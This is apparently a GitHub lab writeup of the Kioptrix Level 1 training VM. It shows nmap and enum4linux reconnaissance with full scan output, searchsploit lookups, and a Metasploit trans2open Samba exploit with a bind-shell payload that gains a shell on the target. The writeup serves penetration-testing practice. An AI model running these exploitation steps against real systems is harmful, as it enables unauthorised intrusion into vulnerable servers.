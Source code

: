 # Kioptrix-Level-1

Kioptrix - 1

Name – Aritrya Paul 

My Setup : 
1) A VMware virtual machine running kali linux
2) Another VM running Kioptrix
3) Both has NAT type Network Adapter

**STEP 1** - First to check the hosts running on our IP address with the shell command : 
            
            netdiscover

![netdiscover](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/34acb7c8-6efd-44bd-9561-acd384fb4b99)

So, the IP of the host is **192.168.13.131** . 
To check it we can type the command : **enum4linux 192.168.13.131** which shows the information about the target.

![enum4linux](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/06d7cd18-05bd-40cc-ac60-3c3ee9f1b616)

**STEP 2** - I have used Nmap to run a fast/aggression scan over the network. To do so I have used the command : 

        nmap -sS -A 192.168.13.131

![nmap](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/b0a57d33-3e35-41d7-aa30-7fa7605fd588)

*-sS is for TCP SYN scan <br>
*-A Decets OS and Services

I have done a bit more recon and enumeration this time. So, I have done a more thorough scan. So, I have used the command : 

      nmap -p- -T4 -A -O -v 192.168.13.131

**The output of the above scan** : 

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-28 14:07 IST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating NSE at 14:07
Completed NSE at 14:07, 0.00s elapsed
Initiating ARP Ping Scan at 14:07
Scanning 192.168.13.131 [1 port]
Completed ARP Ping Scan at 14:07, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:07
Completed Parallel DNS resolution of 1 host. at 14:07, 0.02s elapsed
Initiating SYN Stealth Scan at 14:07
Scanning 192.168.13.131 [65535 ports]
Discovered open port 139/tcp on 192.168.13.131
Discovered open port 80/tcp on 192.168.13.131
Discovered open port 22/tcp on 192.168.13.131
Discovered open port 443/tcp on 192.168.13.131
Discovered open port 111/tcp on 192.168.13.131
Discovered open port 1024/tcp on 192.168.13.131
Completed SYN Stealth Scan at 14:07, 7.64s elapsed (65535 total ports)
Initiating Service scan at 14:07
Scanning 6 services on 192.168.13.131
Completed Service scan at 14:07, 11.03s elapsed (6 services on 1 host)
Initiating OS detection (try #1) against 192.168.13.131
NSE: Script scanning 192.168.13.131.
Initiating NSE at 14:07
Completed NSE at 14:08, 10.51s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.10s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Nmap scan report for 192.168.13.131
Host is up (0.00097s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1024/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2023-09-28T08:39:54+00:00; +1m52s from scanner time.
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| http-methods: 
|_  Supported Methods: GET HEAD POST
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce:5293:4723:e7fe:c28d:74ab:42d7:02f1
|_SHA-1: 9c42:91c3:bed2:a95b:983d:10ac:f766:ecb9:8766:1d33
|_http-title: 400 Bad Request
1024/tcp open  status      1 (RPC #100024)
MAC Address: 00:0C:29:2E:A7:98 (VMware)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Uptime guess: 0.036 days (since Thu Sep 28 13:15:35 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=201 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>
|_clock-skew: 1m51s

TRACEROUTE
HOP RTT     ADDRESS
1   0.97 ms 192.168.13.131

NSE: Script Post-scanning.
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Initiating NSE at 14:08
Completed NSE at 14:08, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.99 seconds
           Raw packets sent: 65555 (2.885MB) | Rcvd: 65551 (2.623MB)



Here, To start with HTTP/S. We have both the ports open. **Port 80** is for **http** and **port 443** for **https**. Other findings : 
1] Apache/1.3.20 (Unix)
2] mod_ssl/2.8.4
3] OpenSSL/0.9.6b

I have also got the **Samba port:139**.

I have also got **port 22: the SSH port**. Other findings : 
1] OpenSSH 2.9p2 (protocol 1.99)
2] Sshv1: Server support SSHv1

From the above output we can see that the process is running in netbios-ssn Samba but no exact version is described.


**STEP 3** - I have used searchsploit on openssh 2.9 and Apache 1.2.30 by the command : 

           searchsploit openssh 2.9

![searchsploit openssh](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/c2f51931-ab58-4c9f-839e-5e1db66208d1)

But there was many exploits but not in any specific version which is openssh 2.9 . So, this will not be the case.

Again, 

           Searchsploit Apache 1.3.20 

![searchsploit Apache](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/59640a9f-e530-476d-8fcf-cc35e311afd0)

Here, I found 2 exploits of version 1.3.20 but both are for windows. So, this will also not be the case because our target machine platform is linux based.

STEP 4 - By this I came to understand that our next exploitation will be on Samba. For this I have used Metasploit Framework. To access Metasploit in Kali Linux type :

             msfconsole
STEP 5 - Now, to see the available modules in metasploit of Samba by the command : 

             search samba 

![search samba](https://github.com/aritrya-paul/Kioptrix-Level-1/assets/129430524/ede8a97d-2fec-4a79-882e-e2ee0e51341c)

I have used **exploit/linux/samba/trans2open** module whose rank is excellent. By typing **info** I get to know that the module requires only **RHOSTS** and **RPORT**.

I set the RHOSTS to 192.168.13.131 and the RPORT to 139 which is for the target TCP port and finally to exploit.

Next, I set the PAYLOAD to handle the session by the command : 

     set payload linux/x86/shell_bind_tcp 

By this I got access to the command shell of the target machine.











                                   








